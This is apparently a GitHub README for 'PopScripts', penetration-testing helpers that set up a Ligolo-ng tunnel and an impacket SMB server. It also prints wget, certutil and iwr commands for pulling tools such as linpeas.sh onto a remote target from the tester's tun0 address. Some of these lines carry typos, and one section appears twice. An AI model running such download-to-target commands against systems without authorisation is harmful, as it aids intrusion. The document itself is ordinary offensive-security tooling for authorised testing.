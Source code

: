 # PopScripts

## liggy
This script exists to automate the setup of the Ligolo-ng (https://github.com/nicocha30/ligolo-ng) proxy. It requires Ligolo to be in the /opt folder. It requires an IP range to set up a tunnel, but it will accept a specific IP range or a single IP and convert to the IP range of 0/24. 

Run `sudo chmod +x /opt/liggy/liggy.sh && ln -s /opt/liggy/liggy.sh /usr/local/bin/liggy` to be able to call it as liggy from any directory. 

## served
This script prints cerutil, iwr, and wget commands to be run on a remote target to download files from your machine. The default IP is your tun0 (-IP), the default port (-p) is 80, and the default file (-f) is `file`, but the script can be run with any of those flags. 

Run `sudo chmod +x /opt/PopScripts/served.sh && ln -s /opt/PopScripts/served.sh /usr/local/bin/served` to be able to call it as liggy from any directory. 

Ex: `served -p 443 -f linpeas.sh`
Output:
`wget http:{tun0}:443/linpeas.sh`
`certutil.exe -f -split -urlcache http:{tun0}:443/linpeas.sh -o linpeas.sh`
`iwr -uri http://{tun0]:443/linpeas.sh -o linpeas.sh`

## speedysmb

This script exists to automate the creation of an impacket-smbserver (https://github.com/fortra/impacket/blob/master/examples/smbserver.py) by requesting a username and password, and then printing the commands that need to be run on a remote machine to transfer files. 

Run `sudo chmod +x /opt/PopScripts/speedysmb.sh && ln -s /opt/PopScripts/speedysmb.sh /usr/local/bin/speedysmb` to be able to call it as speedysmb from any directory.

## liggy
This script exists to automate the setup of the Ligolo-ng (https://github.com/nicocha30/ligolo-ng) proxy. It requires Ligolo to be in the /opt folder. It requires an IP range to set up a tunnel, but it will accept a specific IP range or a single IP and convert to the IP range of 0/24. 

Run `sudo chmod +x /opt/PopScripts/liggy.sh && ln -s /opt/PopScripts/liggy.sh /usr/local/bin/liggy` to be able to call it as liggy from any directory. 


## to create symbolic links for all of them

Run `sudo chmod +x /opt/PopScripts/served.sh && chmod +x /opt/PopScripts/speedysmb.sh chmod +x /opt/PopScripts/liggy.sh && ln -s /opt/PopScripts/served.sh /usr/local/bin/served && ln -s /opt/PopScripts/speedysmb.sh /usr/local/bin/speedysmb && ln -s /opt/PopScripts/liggy.sh /usr/local/bin/liggy`
